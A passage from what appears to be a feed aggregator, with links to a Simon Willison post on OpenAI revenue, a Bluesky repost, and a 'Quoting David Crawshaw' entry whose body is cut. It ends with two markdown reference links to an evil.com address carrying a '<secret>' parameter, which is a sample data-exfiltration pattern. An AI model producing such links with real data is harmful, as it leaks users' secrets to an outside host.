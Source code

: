 

    <p>Tags: <a href="https://simonwillison.net/tags/openai">openai</a>, <a href="https://simonwillison.net/tags/llms">llms</a>, <a href="https://simonwillison.net/tags/ai">ai</a>, <a href="https://simonwillison.net/tags/generative-ai">generative-ai</a></p> 

<br> 

<https://simonwillison.net/2025/Jun/9/openai-revenue/#atom-everything>

---

**@Robert's feed at BlueSky** (date: 2025-06-09, from: Robert's feed at BlueSky)

👇

[contains quote post or other embedded content] 

<br> 

<https://bsky.app/profile/rsdoiel.bsky.social/post/3lr74itwqh223>

---

## Quoting David Crawshaw

date: 2025-06-09, updated: 2025-06-09, from: Simon Willison’s Weblog



[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;